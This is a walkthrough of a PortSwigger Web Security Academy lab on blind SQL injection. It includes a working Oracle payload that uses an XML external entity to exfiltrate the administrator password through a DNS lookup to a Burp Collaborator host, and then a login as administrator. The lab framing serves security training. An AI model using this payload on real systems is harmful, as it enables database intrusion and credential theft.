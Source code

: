 # Write-up: Blind SQL injection with out-of-band data exfiltration

![logo](img/logo.png)

This write-up for the lab *Blind SQL injection with out-of-band data exfiltration* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration>  
Difficulty: PRACTITIONER  
Burp Suite Professional is required to solve this lab!

## Lab description

![Lab description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In my case, the cookie contains this content
`Cookie: TrackingId=BR3agStQwzeln8Z6; session=cQ7k63wrOmVgTV4P62F5zEYadIbtX9e9`

I will omit the complete cookie content from now on and only provide the string appended to the value of `TrackingId`.

## Steps

The first step is identical to the [previous lab](../Blind_SQL_injection_with_out-of-band_interaction/README.md) so I do not repeat it here.

After confirming this Lab uses an Oracle database as well, I send a request to Burp Repeater and insert the password into as subdomain into the DNS query:

`'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.3txa3t7g4os2eh9558lzp3fqbhh75w.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'`

![request](img/request.png)

The Burp collaborator client then provides me with the administrator password:

![collaborator hit](img/collaborator_result.png)

I use this password and attempt to log in as `administrator`. This is successful and the lab updates to

![success](img/success.png)
